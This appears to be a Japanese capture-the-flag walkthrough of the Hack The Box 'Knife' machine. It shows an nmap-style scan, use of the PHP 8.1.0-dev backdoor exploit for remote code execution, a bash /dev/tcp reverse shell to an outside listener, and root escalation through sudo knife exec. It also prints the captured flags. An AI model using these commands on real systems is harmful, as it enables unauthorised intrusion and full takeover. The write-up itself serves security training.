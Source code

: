 https://app.hackthebox.com/machines/Knife

## STEP 1
```sh
└─$ rustscan -a 10.129.207.242 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.207.242:22
Open 10.129.207.242:80
10.129.207.242 -> [22,80]
```


## STEP 2  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Knife_01.png">

curlでヘッダを確認、PHPのバージョンを確認できた
```sh
└─$ curl -I http://10.129.207.242 
HTTP/1.1 200 OK
Date: Wed, 25 Jun 2025 04:22:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
今回のphpのバージョンは、RCEが動作するバックドアが仕込まれていたバージョンでありPoCも発見  
```sh
└─$ searchsploit -m 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/49933.py
```
PoCでRCE実行
```sh
└─$ python3.13 49933.py
Enter the full host url:
http://10.129.207.242/ 

Interactive shell is opened on http://10.129.207.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
^CExiting...
```
リバースシェル取得、ユーザフラグゲット！
```sh
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.207.242] 51632
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell

james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

james@knife:/$ ^Z
zsh: suspended  nc -lnvp 4444

└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 4444
                               ^C

james@knife:/$ export SHELL=bash

james@knife:/$ export TERM=xterm-256color

james@knife:/$ stty rows 66 columns 236

james@knife:/$ id
uid=1000(james) gid=1000(james) groups=1000(james)

james@knife:/$ cat /home/james/user.txt
bba83508c99c3412f30c9113955ebe23
```


## STEP 3
`/usr/bin/knife`がパスワードなしでroot権限実行できる
```sh
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
[gtfobins](https://gtfobins.github.io/gtfobins/knife/)で権限昇格のコマンドを確認、ルートフラグゲット
```sh
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
c5d240400c720f165d8b28ebcae5b6bd
```
